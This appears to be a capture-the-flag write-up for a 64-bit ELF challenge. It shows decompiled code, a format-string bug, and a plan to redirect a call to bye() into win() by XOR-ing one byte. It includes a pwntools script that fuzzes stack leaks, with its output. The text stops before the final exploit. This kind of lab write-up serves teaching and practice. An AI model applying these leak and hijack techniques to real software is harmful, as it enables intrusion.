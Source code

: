 
![[chall]]


| RELRO         | STACK CANARY | NX        | PIE   | RPATH | RUNPATH | Symbols | FORTIFY | Fortified | Fortifiable | FILE  |
|---------------|--------------|-----------|-------|-------|---------|---------|---------|-----------|-------------|-------|
| Partial RELRO | Canary found  | NX enabled| No PIE| No RPATH | No RUNPATH| 48 Symbols | No      | 0         | 2           | chall |


```
└─$ file chall 
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f041a6eba0e7557961bb783a363f0cb0bbb3eb8b, for GNU/Linux 3.2.0, not stripped
```

```
undefined8 main(EVP_PKEY_CTX *param_1)

{
  init(param_1);
  vuln();
  return 0;
}
```

Very simple main function - directly calls a vuln function

```
undefined8 vuln(void)

{
  long in_FS_OFFSET;
  undefined8 uStack_58;
  byte local_4c [4];
  uint local_48;
  uint local_44;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = 0;
  puts("which stack position do you want to use?");
  __isoc99_scanf(&DAT_004020c9,&local_44);
  local_44 = local_44 << 3;
  local_40 = *(undefined8 *)((long)&uStack_58 + (ulong)local_44);
  puts("you have one chance to modify a byte by xor.");
  puts("Byte Index?");
  __isoc99_scanf(&DAT_004020c9,&local_48);
  if (((int)local_48 < 0) || (7 < (int)local_48)) {
    puts("don\'t cheat!");
    FUN_00401120(0);
  }
  puts("xor with?");
  __isoc99_scanf(&DAT_004020c9,local_4c);
  local_38[(ulong)local_48 - 8] = local_38[(ulong)local_48 - 8] ^ local_4c[0];
  puts("finally, do you have any feedback? it will surely help us improve our service.");
  __isoc99_scanf("%20[^@]",local_38);
  printf(local_38);
  bye();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
```

Then we have the win function:

```
└─$ undefined8 win(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_48 [56];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("flag.txt not found!");
    FUN_00401120(0);
  }
  fgets(local_48,0x32,__stream);
  puts(local_48);
  puts("How could you do that?!");
  puts("That\'s my precious secret.");
  puts("Anyway congratulations");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Interestingly, the `bye()` function that is called is close to the win function, 

```
0000000000401299 <bye>:
  401299:       f3 0f 1e fa             endbr64
  40129d:       55                      push   %rbp
  40129e:       48 89 e5                mov    %rsp,%rbp
  4012a1:       48 8d 05 60 0d 00 00    lea    0xd60(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  4012a8:       48 89 c7                mov    %rax,%rdi
  4012ab:       e8 00 fe ff ff          call   4010b0 <puts@plt>
  4012b0:       bf 00 00 00 00          mov    $0x0,%edi
  4012b5:       e8 66 fe ff ff          call   401120 <exit@plt>

00000000004012ba <win>:
```

All we have to do is modify the lowest byte of the `bye()` function that is called and replace it with `0xba`

The vuln function contains a format string vulnerability here:

```
  __isoc99_scanf("%20[^@]",local_38);
  printf(local_38);
  bye();```
```
This regex allows us 20 chars with the exception of @. First, let's try and find some information about where we are on the stack, and where the bye function address is stored:

Fuzz.py:

```
#!/usr/bin/env python3
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./chall', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:    
        p = process(level='error')
        p.sendlineafter(b'use?', b'0')  
        p.sendlineafter(b'dex?\n', b'0')
        p.sendlineafter(b'with?', b'0')
        p.recvuntil(b'service.')        
        p.sendline('%{}$p@'.format(i).encode())
        p.recvline() 
        p.recvline() 
        result = p.recvline()
        result_str = result.decode('utf-8')
        split_result = result_str.split("Thanks")        
        print(str(i) + ': ' + str(split_result[0]))
        p.close()
    except EOFError:
        pass
```

fuzzing the server
```
0: %0$lx
1: 40
2: 0
3: 7cd78e8557e2
4: 0
5: 7ffe0854c260
6: 7ec407567600
7: 3a5a45ad
8: 0
9: 7e2ac3366600
10: 786c243031250a
11: 7ffc97544450
12: 7ffc2a293648
13: 4014de
14: 403e18
15: 206b6c6a4e841000
16: 7ffc411bee80
17: 4014fa
18: 1
19: 7c214625ed90
20: 0
21: 4014de
22: 100000000
23: 7ffd6b8f3898
24: 0
25: 5c018b557236584e
26: 7ffe3a05e5a8
27: 4014de
28: 403e18
29: 7c8e23e75040
30: cd2327adf99ba74e
31: cab135d4eb1376fb
32: 0
33: 0
34: 0
35: 0
36: 0
37: d6c5bb42a2e49d00
38: 0
39: 7a078dd98e40
40: 7ffc5d0b1348
41: 403e18
42: 7fb909c042e0
43: 0
44: 0
45: 401130
46: 7ffca8c1c590
47: 0
48: 0
49: 401155
50: 7ffd7807d108
51: 1c
52: 1
53: 7ffd0e78ffd6

```

